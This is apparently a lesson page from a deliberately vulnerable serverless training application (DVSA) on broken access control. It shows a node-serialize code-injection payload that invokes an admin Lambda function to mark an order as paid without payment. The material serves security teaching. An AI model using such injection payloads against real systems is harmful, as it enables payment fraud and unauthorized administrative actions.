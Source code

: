 # LESSON #5: Broken Access Control

The DVSA applicaiton has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) is it possible to invoke admin function using the standard API calls.

This means that by invoking the right funciton at the right time, we can skip the payment. But, first, we start with the normal flow:

- `{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}`

- `{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}`

- `{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}`

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:

```
{
  "body": {
    "action": "update",
    "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba",
    "item": {
      "userId": "12312312-1233-1233-1233-123123123123",
      "token": "aSD32d2ASd2",
      "ts": "1545594489",
      "itemList": {
        "20": 2
      },
      "address": {
        "name": "john doe",
        "email": "secret@email.com",
        "address": "po box 31337"
      },
      "total": 25,
      "status": 120
    }
  }
}
```

Now, we have to pass it as part of the exploit itself:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

Which eventually looks like that:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/8NXyXlQ.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipts will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.

- - - 
[<- Lesson #4](../LESSONS/LESSON_04.md)

[Lesson #6 ->](../LESSONS/LESSON_06.md)
